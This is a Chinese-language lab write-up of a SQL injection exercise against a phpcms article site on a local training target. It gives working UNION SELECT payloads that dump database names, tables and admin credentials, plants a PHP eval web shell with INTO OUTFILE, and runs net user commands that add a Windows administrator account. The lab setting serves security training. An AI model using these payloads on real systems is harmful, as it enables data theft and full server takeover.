 ```yaml
---
description: 记录学习平台上实验过程和注入的思路
---
```


# Web渗透之基于phpcms的sql注入实验

## 记录实验过程

先启动靶机的服务，然后打开攻击机，使用浏览器访问PHP网站http://192.168.1.26:8083,打开了一个文章管理系统。

![&#x6587;&#x7AE0;&#x7BA1;&#x7406;&#x7CFB;&#x7EDF;&#x4E3B;&#x9875;](../.gitbook/assets/image%20%2851%29.png)

当我们访问一个文章时，会出现这样的链接

![&#x5355;&#x4E2A;&#x65B0;&#x95FB;&#x7684;&#x94FE;&#x63A5;](../.gitbook/assets/image%20%2871%29.png)

  
所以测试一下该网站此处是否存在sql注入漏洞

当我们构造这个http://192.168.1.26:8083/show.php?id=33 and 1=2链接访问时，系统返回了空白的页面

![&#x8FD4;&#x56DE;&#x7A7A;&#x767D;&#x9875;&#x9762;](../.gitbook/assets/image%20%2830%29.png)

  
当我们访问http://192.168.1.26:8083/show.php?id=33 and 1=1时，返回了正常的页面

![&#x8FD4;&#x56DE;&#x6B63;&#x5E38;&#x7684;&#x9875;&#x9762;](../.gitbook/assets/image%20%2866%29.png)

  
当我们尝试去http://192.168.1.26:8083/show.php?id=33‘访问时，出现了报错信息

![&#x7A0B;&#x5E8F;&#x62A5;&#x9519;&#x4FE1;&#x606F;](../.gitbook/assets/image%20%28105%29.png)

通过以上3次测试，我们可以得出基本的两个结论：  
1.存在sql注入漏洞  
2.程序采用的数据库为MYSQL

下面就考虑如何让数据库回显信息，既然有报错信息那么报错注入可以使用，我们还可以测试一下返回的字段数，直接回显信息。这里采用group by num 来测试（翻倍递增可以加快测试速度），最终测试出来长度为15

![&#x957F;&#x5EA6;&#x4E3A;16&#x65F6;&#x62A5;&#x9519;](../.gitbook/assets/image%20%2813%29.png)

![&#x957F;&#x5EA6;&#x4E3A;15&#x65F6;&#x6B63;&#x5E38;&#x663E;&#x793A;](../.gitbook/assets/image%20%28103%29.png)

测试一下显示的是第几个字段，http://192.168.1.26:8083/show.php?id=33 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15。发现第3个和第11个有回显

![&#x6D4B;&#x8BD5;&#x7ED3;&#x679C;](../.gitbook/assets/image%20%2883%29.png)

**实验手册中的几个payload\(基本思路都是利用sql函数和mysql系统数据库information\_schema\)**  
1.查看 mysql 版本 version\(\)  
2.查看当前数据库 database\(\)  
3.查看当前用户 user\(\)  
4.利用 and 1=2 union select 1,2,group\_concat\(convert\(SCHEMA\_NAME using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15  from  information\_schema.SCHEMATA，查看 mysql中所有数据库的名称。  
5.利用 and 1=2 union select 1,2,group\_concat\(convert\(table\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.tables where table\_schema=database\(\) ，查看 cms 数据库拥有的所有表。可以发现存放用户信息的表cms\_users。  
6.利用 and 1=2 union select 1,2,group_concat\(convert\(column\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.columns where table\_name=0x636D735F7573657273。 table\_name=cms\_users，表名需要编码为 16 进制。得到 3 个列：userid，username 和 password 从ASCII对照表中可知对应：c\(63\) m\(6d\) s\(73\)_ \(5f\) u\(75\) s\(73\) e\(65\) r\(72\) s\(73\)  
7.利用 and 1=2 union select 1,2,concat\_ws\(0x2b,userid,username,password\),4,5,6,7,8,9,10,11,12,13,14,15 from cms.cms\_users。得到管理员账号密码为：admin/e10adc3949ba59abbe56e057f20f883e（解密后123456）  


![&#x83B7;&#x5F97;&#x540E;&#x53F0;&#x7528;&#x6237;&#x540D;&#x5BC6;&#x7801;](../.gitbook/assets/image%20%2841%29.png)

登录后台：

![](../.gitbook/assets/image%20%2837%29.png)

后台页面竟然有报错信息......，暴露了目录，直接写一个木马。http://192.168.1.26:8083/show.php?id=33 union select '&lt;?php eval\($\_POST\[cmd\]\); ?&gt;',1,1,1,1,1,1,1,1,1,1,1,1,1,1 into outfile D:\\WWW\\cms\\ma.php

![](../.gitbook/assets/image%20%28107%29.png)

菜刀链接 

![](../.gitbook/assets/image%20%2876%29.png)

打开虚拟终端尝试添加用户：

net user test test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;](../.gitbook/assets/image%20%2814%29.png)

  
添加用户到管理员组

net localgroup Administrators test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;&#x5230;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%2833%29.png)

  
查看管理员组   
net localgroup administrators

![&#x67E5;&#x770B;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%2886%29.png)

尝试远程桌面链接

![&#x8FDC;&#x7A0B;&#x684C;&#x9762;](../.gitbook/assets/image%20%2839%29.png)



